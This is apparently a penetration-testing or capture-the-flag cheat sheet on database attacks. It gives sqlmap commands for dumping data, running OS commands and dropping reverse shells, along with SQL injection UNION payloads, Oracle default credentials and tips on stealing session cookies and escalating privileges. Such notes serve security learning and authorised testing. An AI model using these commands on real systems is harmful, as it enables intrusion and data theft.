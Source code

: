 # Databases (SQL / NoSQL)
## Tips
- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.     
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

# SQL injection cheat sheets
- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


# sqlmap
## GET
Discover vulnerabilities in databases as well as dump info
```sh
sqlmap -u <URL> --batch
```

## POST
```sh
# With request file
# Add request into a log file (either from Burp or Chrome)
sqlmap -r <request_file> --batch

sqlmap -u <URL> --data "username=*&password=*"
```

## Commands
**To get data from any query use the `--dump` option**
```sh
# Get all databases
sqlmap -u <URL> --dbs

# Set DBMS
sqlmap -u <URL> --dbms="dbms"

# Database
sqlmap -u <URL> -D <database>

# Tables
sqlmap -u <URL> --tables -D <database>

## Specify table
sqlmap -u <URL> -D <database> -T <table>

# Columns
sqlmap -u <URL> --columns -D <database> -T <table>
```

## Shell
To get upload web interface look for `file stager` otherwise look for `backdoor` in the output.
```sh
# Exec command
sqlmap -u <URL>  --os-cmd <command>

# Simple Shell
sqlmap -u <URL> --os-shell

# Dropping a reverse-shell / meterpreter
sqlmap -u <URL> --os-pwn
```

### File upload
```sh
sqlmap -u <url> --data <data> --file-write <local_file> --file-dest <destination>
```

#### References
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)
- [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell)
- [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
- [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)


# MySQL 
## Structure
```
information_schema              Metadata and all the databases and tables
information_schema.schemata     Databases
information_schema.tables       Tables
information_schema.columns      Columns
```

### Example commands
```sql
-- Databases
SELECT group_concat(schema_name), from information_schema.schemata;

-- Tables from DB
SELECT group_concat(table_name), from information_schema.tables where table_schema='YOURDB';

-- Columns from table
SELECT group_concat(column_name),from information_schema.columns where table_name='TABLENAME';

-- Get data
SELECT data,data, from database.table;
```

## Union
When an application is vulnerable to SQL injection and the results of the query are returned within the application’s responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

### Examples
```sql
-- If values are returned in order
SELECT a, b FROM table1 UNION SELECT c, d FROM table2

-- If more than one entry is returned but not all of the are in use
SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -
```

#### References
- [https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)

## User defined functions
[​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf](​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)


# MSSQL
## Union
Test the following query, it should dump all the data from the selected table.         
```sql
abcd' union select 1, concat(<data>,':',<data>) 3,4,5,6 from <table>;-- -
```      

*If the query needs to be edited, please follow the link in [the references](#references-1) below.*

# Oracle / ODAT
Use [this](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) link as a reference for the steps described below    
[https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)    

## Basic creds 
``` 
Username --> Scott 
Password --> tiger
```

## Brute force SID
*Steps*    
1. Use: `odat` and its `sidguesser` to bruteforce with a link provided
2. Use metasploit and use `auxiliary(admin/oracle/sid_brute)`
3. Use `sqlplus` to login with the creds or
    1. Read file with odat as such:    `odat ctxsys -s 10.10.10.14 -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt`


# NoSQL
NoSQL injection knowledge base
A well curated list of tools and injection methods to use on NoSQL databases by ​[swisskyrepo](https://github.com/swisskyrepo)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

​
# NoSQLMap
[https://github.com/codingo/NoSQLMap](https://github.com/codingo/NoSQLMap)
​​